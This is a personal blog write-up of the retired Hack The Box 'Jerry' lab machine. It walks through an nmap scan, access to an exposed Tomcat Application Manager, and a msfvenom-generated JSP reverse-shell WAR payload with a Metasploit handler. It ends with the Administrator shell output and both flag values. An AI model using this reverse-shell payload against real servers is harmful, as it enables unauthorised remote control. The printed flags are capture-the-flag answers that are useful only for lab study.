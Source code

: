 Title:HTB: Jerry
Date: 09-12-2019 10:25
category:security
tags:security, boot2root, HTB, windows
meta:security, boot2root, HTB, windows

<img class="align-left" src="/media/2019.09/jerry_card.png" alt="Jerry card" width="262">

I started to work on [Hack The Box](www.hackthebox.com/) machines in 2018. This is a writeup for the
retired [Jerry](https://www.hackthebox.com/home/machines/profile/144) machine.

<!-- PELICAN_END_SUMMARY -->

# Hack the Box

In 2018 I started to play with [Hack the box](www.hackthebox.com). The principle
is similar to the [vulnhub](https://www.vulnhub.com/about/) machines: You got a
VM and have to root it. The main difference is that you are connected to a VPN 
nd the machines are shared between the users. Also, there is only 20 "active" VM
at a time. At the moment there is a total of 128 VM and therefore 108 retired.
Finally, nobody is publishing Writeup before the VM is retired.

One of the Drawback is that I completely forgot to write and publish this
writeup.

The Jerry machine is Windows server. This VM is classified as a trivial one. In
fact it is a really easy one.

# Network discovery

As usual, we start with a simple network scan using nmap in order to scan the
open TCP ports: Only the port 8080 is open with an HTTP service.

    :::text
    root@kalili:~# nmap -p- 10.10.10.95 -sSV
    Starting Nmap 7.70 ( https://nmap.org ) at 2018-11-03 17:38 CET
    Nmap scan report for 10.10.10.95
    Host is up (0.019s latency).
    Not shown: 65534 filtered ports
    PORT     STATE SERVICE VERSION
    8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1

    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 112.41 seconds

When going to this page we see a simple Tomcat Application Manager.

![Tomcat application manager](/media/2019.09/jerry_2.png)


# Exploiting the administration interface

We generate a Java reverse shell payload using `msfvenom`:

    :::text
    root@kalili:~# msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.15.14 LPORT=4444 -f war > reverse2.war

We start the handler using `metasploit`:

    :::text
    msf exploit(multi/handler) > use exploit/multi/handler 
    msf exploit(multi/handler) > show options 

    Module options (exploit/multi/handler):

      Name  Current Setting  Required  Description
      ----  ---------------  --------  -----------


    Payload options (java/jsp_shell_reverse_tcp):

      Name   Current Setting  Required  Description
      ----   ---------------  --------  -----------
      LHOST  10.10.15.14      yes       The listen address (an interface may be specified)
      LPORT  4444             yes       The listen port
      SHELL                   no        The system shell to use.


    Exploit target:

      Id  Name
      --  ----
      0   Wildcard Target

When running the War payload we got a shell as Administrator and we can start
listing the directories looking for the flags:

    :::text
    C:\apache-tomcat-7.0.88>dir c:\Users
    dir c:\Users
    Volume in drive C has no label.
    Volume Serial Number is FC2B-E489

    Directory of c:\Users

    06/18/2018  10:31 PM    <DIR>          .
    06/18/2018  10:31 PM    <DIR>          ..
    06/18/2018  10:31 PM    <DIR>          Administrator
    08/22/2013  05:39 PM    <DIR>          Public
                  0 File(s)              0 bytes
                  4 Dir(s)  27,600,285,696 bytes free

    C:\apache-tomcat-7.0.88>dir c:\Users\Administrator\Desktop\
    dir c:\Users\Administrator\Desktop\
    Volume in drive C has no label.
    Volume Serial Number is FC2B-E489

    Directory of c:\Users\Administrator\Desktop

    06/19/2018  06:09 AM    <DIR>          .
    06/19/2018  06:09 AM    <DIR>          ..
    06/19/2018  06:09 AM    <DIR>          flags
                  0 File(s)              0 bytes
                  3 Dir(s)  27,600,269,312 bytes free

    C:\apache-tomcat-7.0.88>dir c:\Users\Administrator\Desktop\flags
    dir c:\Users\Administrator\Desktop\flags
    Volume in drive C has no label.
    Volume Serial Number is FC2B-E489

As we already are administrator we can read the flag for the two level:

    :::text
    Directory of c:\Users\Administrator\Desktop\flags

    06/19/2018  06:09 AM    <DIR>          .
    06/19/2018  06:09 AM    <DIR>          ..
    06/19/2018  06:11 AM                88 2 for the price of 1.txt
                  1 File(s)             88 bytes
                  2 Dir(s)  27,600,269,312 bytes free

    C:\apache-tomcat-7.0.88>type c:\Users\Administrator\Desktop\flags\2*
    type c:\Users\Administrator\Desktop\flags\2*
    user.txt
    7004dbcef0f854e0fb401875f26ebd00

    root.txt
    04a8b36e1545a455393d067e772fe90e

